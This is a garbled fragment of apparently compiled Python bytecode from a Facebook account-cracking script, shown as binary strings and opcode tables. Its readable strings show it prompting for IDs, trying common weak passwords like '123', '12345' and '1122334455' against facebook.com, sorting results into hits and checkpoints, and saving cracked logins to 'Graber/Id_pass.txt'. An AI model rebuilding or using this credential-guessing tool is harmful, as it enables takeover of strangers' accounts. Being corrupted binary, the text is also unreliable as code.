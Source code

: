 okies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6R>\x00\x00\x00s\x0e\x00\x00\x00?access_token=s\x10\x00\x00\x00\x1b[37;1m HACK BU s\x10\x00\x00\x00\x1b[37;1mNAWE >>> Re\x00\x00\x00s\x11\x00\x00\x00\x1b[37;1mID kay >>>s\x17\x00\x00\x00\x1b[37;1mPASSWORD kay >>>s\x01\x00\x00\x00\ns\x10\x00\x00\x00www.facebook.comt\t\x00\x00\x00error_msgs"\x00\x00\x00\x1b[37;1maccount ka la Checkpoint yas\x11\x00\x00\x00\x1b[37;1m NAWE >>> s\x11\x00\x00\x00\x1b[37;1mID kay>>> s\x17\x00\x00\x00\x1b[37;1mPASSWORD kay>>> s\x12\x00\x00\x00Graber/Id_pass.txtRc\x00\x00\x00s\x03\x00\x00\x00ID:s\n\x00\x00\x00 Password:t\x03\x00\x00\x00123s\x0f\x00\x00\x00\x1b[37;1m HACK BUs\x12\x00\x00\x00Graber/id_pass.txts\x06\x00\x00\x00 Pass:t\t\x00\x00\x00last_names\x07\x00\x00\x0012345@@t\x07\x00\x00\x0012345aat\n\x00\x00\x001122334455t\x05\x00\x00\x0012345s\x04\x00\x00\x00 Pw:t\x08\x00\x00\x0012345678(\x12\x00\x00\x00R\t\x00\x00\x00t\x05\x00\x00\x00mkdirt\x07\x00\x00\x00OSErrorRU\x00\x00\x00RV\x00\x00\x00R^\x00\x00\x00RW\x00\x00\x00RX\x00\x00\x00RY\x00\x00\x00t\x06\x00\x00\x00urllibt\x07\x00\x00\x00urlopent\x04\x00\x00\x00loadt\x03\x00\x00\x00okst\x06\x00\x00\x00appendRA\x00\x00\x00R\x1e\x00\x00\x00RZ\x00\x00\x00t\x08\x00\x00\x00cekpoint(\x12\x00\x00\x00t\x03\x00\x00\x00argt\x04\x00\x00\x00userRc\x00\x00\x00R\x15\x00\x00\x00t\x05\x00\x00\x00pass1Rb\x00\x00\x00t\x01\x00\x00\x00qR\x10\x00\x00\x00R#\x00\x00\x00t\x03\x00\x00\x00cekt\x05\x00\x00\x00pass2t\x05\x00\x00\x00pass3t\x05\x00\x00\x00pass4t\x05\x00\x00\x00pass5t\x05\x00\x00\x00pass6t\x05\x00\x00\x00pass7t\x05\x00\x00\x00pass8t\x05\x00\x00\x00pass9(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<daffa>t\x04\x00\x00\x00main(\x01\x00\x00s|\x01\x00\x00\x00\x01\x06\x01\x03\x01\x11\x01\r\x01\x04\x02\x03\x01\x1b\x01\x12\x01\x0e\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x14\x02\x0e\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x14\x02\x0e\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x14\x02\x0e\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x14\x02\x0e\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x14\x02\x06\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x14\x02\x0e\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x14\x02\x0e\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x14\x02\x0e\x01\x1f\x01\x0f\x01\x0c\x01\x1f\x01\x12\x01\x05\x01\r\x01\t\x01\r\x01\x14\x01\x10\x01\x05\x01\r\x01\t\x01\r\x01\x0f\x01\x1d\x01\n\x01\x18\x01\x03\x01i\x1e\x00\x00\x00s/\x00\x00\x00>>>>>>>>>$\x1b[31;1mKaK\x1b[37;1mSheLl\x1b[0m$<<<<<<<<<<s\x08\x00\x00\x00\x1b[37;1m s\x08\x00\x00\x00\x1b[32;1m s1\x00\x00\x00\x1b[31;1mKoy HITS/\x1b[31;1mCHECKPOINT\x1b[37;1m: \x1b[32;1ms\x0f\x00\x00\x00\x1b[31;1m/\x1b[33;1ms,\x00\x00\x00xdg-open https://www.snapchat.com/add/sh4homs\'\x00\x00\x00>>>>>>>>>>>>>>>>S-H-E-L-L<<<<<<<<<<<<<<s.\x00\x00\x00>>>>>>>>>snapchat : sh4hom <<<<<<<<<<<<<<<<<<<s\x1e\x00\x00\x00>>>>>>>>>>>>>>><<<<<<<<<<<<<<<s$\x00\x00\x00\n\x1b[31;1m [DWBARA KRDNA WA] enter bka(\x1c\x00\x00\x00RF\x00\x00\x00Rp\x00\x00\x00R\t\x00\x00\x00R@\x00\x00\x00RE\x00\x00\x00R%\x00\x00\x00RU\x00\x00\x00RV\x00\x00\x00R^\x00\x00\x00RW\x00\x00\x00RX\x00\x00\x00RY\x00\x00\x00R_\x00\x00\x00R\x81\x00\x00\x00RC\x00\x00\x00Ro\x00\x00\x00RB\x00\x00\x00R\x1c\x00\x00\x00R\x13\x00\x00\x00R\n\x00\x00\x00R\x1d\x00\x00\x00R \x00\x00\x00R!\x00\x00\x00R"\x00\x00\x00R\x01\x00\x00\x00t\x03\x00\x00\x00mapR\x80\x00\x00\x00R\x82\x00\x00\x00(\x0c\x00\x00\x00t\x04\x00\x00\x00peakR\x04\x00\x00\x00R#\x00\x00\x00t\x01\x00\x00\x00st\x03\x00\x00\x00idtt\x03\x00\x00\x00jokt\x02\x00\x00\x00opR\x18\x00\x00\x00R&\x00\x00\x00R\'\x00\x00\x00R\x90\x00\x00\x00t\x01\x00\x00\x00p(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00